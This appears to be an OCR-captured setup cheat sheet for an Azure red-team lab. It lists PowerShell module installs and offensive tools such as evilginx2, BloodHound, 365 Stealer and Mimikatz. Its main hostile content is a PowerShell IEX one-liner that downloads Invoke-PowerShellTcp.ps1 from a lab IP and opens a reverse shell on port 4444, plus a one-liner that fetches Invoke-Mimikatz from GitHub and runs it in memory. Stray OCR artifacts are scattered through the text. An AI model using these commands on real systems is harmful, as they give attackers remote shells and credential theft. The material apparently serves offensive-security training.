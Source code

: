 https://github.com/mgeeky/AzureRT

```
Install-Module Az -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureAD -Force -Confirm -AllowClobber -Scope AllUsers

A
echo "##########################################################################"
echo "###########################Next part is optional###########################"
echo "##########################################################################"

Install-Module Microsoft.Graph -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module MSOnline -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureADPreview -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AADInternals -Force -Confirm -AllowClobber -Scope AllUsers
```

```
Import-Module Az
Import-Module AzureAD
```
OR get AzureRT to download all modules automagically:
```
. .\AzureRT.ps1
Import-ARTModules
```

Download:
- XAMPP
- evilginx2
- Bloodhound
- Neo4j
- ROADTools

Put in `C:\xampp\htdocs`:
- 365 Stealer
- ```Invoke-Mimikatz.ps1```
- ```Invoke-PowerShellTcp.ps1```
- ```studentx.ps1``` (uses the invoke-powershell.ps1 script to establish revshell):
```
powershell "IEX (New-Object Net.Webclient).downloadstring('http://172.16.152.213/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.152.213 -Port 4444"
```

* * * 
addendum

Run tools directly:
```
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
```

